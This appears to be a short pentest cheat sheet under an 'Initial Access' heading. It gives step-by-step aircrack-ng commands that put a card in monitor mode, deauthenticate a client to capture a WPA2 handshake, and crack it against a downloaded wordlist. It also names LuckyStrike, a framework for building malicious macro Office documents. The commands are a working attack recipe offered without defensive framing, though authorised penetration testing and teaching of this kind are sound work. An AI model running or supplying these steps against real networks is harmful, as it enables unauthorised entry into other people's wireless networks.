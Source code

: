 Initial Access consists of techniques that use various entry vectors to gain their initial foothold within a network. Techniques used to gain a foothold include targeted spear phishing and exploiting weaknesses on public-facing web servers. Footholds gained through initial access may allow for continued access, like valid accounts and use of external remote services, or may be limited-use due to changing passwords.

# Aircrack-ng
````
airmon-ng check kill
airmon-ng start wlan0 - monitor mode, check with ifconfig
airodump-ng wlan0mon - get BSSID
airodump-ng wlan0mon -bssid MAC -s CHANNEL -w ./NAME
aircrack-ng   - get password in hex
airmon-ng stop wlan0mon
service network-manager restart
````

  #### WPA2   
  4-way handshake monitoring . Same steps till airdump-ng packet capturing, and disconect client to capture handshake

  ````
  aireplay-ng wlan0mon --deauth NR_TRIES -s BSSID -h CLIENT_MAC   
  aircrack-ng -w WORDLIST CAPFILE  
  ````

  [WPA / WPA2 Word List Dictionaries Downloads – WirelesSHack](https://www.wirelesshack.org/wpa-wpa2-word-list-dictionaries.html)


  # LuckyStrike
  Powershell framework for creating malicious macro Office documents.
